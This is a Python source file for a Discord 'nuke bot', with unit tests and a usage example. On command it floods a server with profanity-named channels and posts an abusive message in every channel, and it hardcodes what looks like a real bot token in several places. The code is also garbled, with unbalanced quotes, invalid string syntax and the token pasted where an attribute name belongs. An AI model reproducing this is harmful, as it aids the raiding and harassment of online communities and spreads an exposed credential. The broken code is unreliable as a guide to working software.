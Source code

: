   import discord
from discord.ext import commands

class NukeBot(commands.Bot):
    """
    Discord bot class for a nuke bot.

    Attributes:
    - token:MTIzMDkyNTQ3NTI0NTk4NTgyMw.G_l41t.KXJ-8J-JkJ-3k-jPtCU4PCDqE9k65V3es46jNE str
        The Discord bot token.
    """

    def __init__(self, token: str):
        """
        Constructor to instantiate the NukeBot class.

        Parameters:
        - token: str
            The Discord bot token.
        """
        super().__init__(command_prefix='!')

        self.token = token

        # Adding the nuke command
        @self.command(name='fuck this server'')
        async def nuke(ctx):
            await self.nuke_channels(ctx)

    async def on_ready(self):
        """
        Event handler for when the bot is ready and connected to Discord.
        """
        print(f'Bot is ready. Logged in as {self.user}')

    async def nuke_channels(self, ctx):
        """
        Method to nuke the server by creating multiple channels and spamming "@everyone".

        Parameters:
        - ctx: discord.ext.commands.Context
            The context object representing the command invocation.
        """
        guild = ctx.guild

        # Creating multiple channels named "getfucked by ras"
        for i in range(10):
            channel_name = 'get fucked by ras' {i+1}'
            await guild.create_text_channel(channel_name)

        # Sending "@everyone" message in each channel
        for channel in guild.text_channels:
            await channel.send('get fucked by ras'')

    def run_bot(self):
        """
        Method to run the bot and connect to Discord using the provided token.
        """
        self.run(self.MTIzMDkyNTQ3NTI0NTk4NTgyMw.G_l41t.KXJ-8J-JkJ-3k-jPtCU4PCDqE9k65V3es46jNE)

# Unit tests for NukeBot class.

import unittest
from unittest.mock import patch, MagicMock

class TestNukeBot(unittest.TestCase):

    def test_nuke_channels(self):
        """
        Tests the nuke_channels method by mocking the necessary objects.
        """
        bot = NukeBot('MTIzMDkyNTQ3NTI0NTk4NTgyMw.G_l41t.KXJ-8J-JkJ-3k-jPtCU4PCDqE9k65V3es46jNE')
        ctx = MagicMock()
        ctx.guild = MagicMock()
        ctx.guild.text_channels = [MagicMock() for _ in range(5)]

        with patch.object(ctx.guild, 'create_text_channel') as mock_create_channel:
            with patch.object(ctx.guild.text_channels[0], 'send') as mock_send:
                bot.loop.run_until_complete(bot.nuke_channels(ctx))

                # Assert that create_text_channel was called 10 times
                self.assertEqual(mock_create_channel.call_count, 10)

                # Assert that send was called 5 times (for each text channel)
                self.assertEqual(mock_send.call_count, 5)

# Example of using the NukeBot class:

# Create an instance of the NukeBot class with the Discord bot token
bot = NukeBot('MTIzMDkyNTQ3NTI0NTk4NTgyMw.G_l41t.KXJ-8J-JkJ-3k-jPtCU4PCDqE9k65V3es46jNE')

# Run the bot
bot.run_bot()

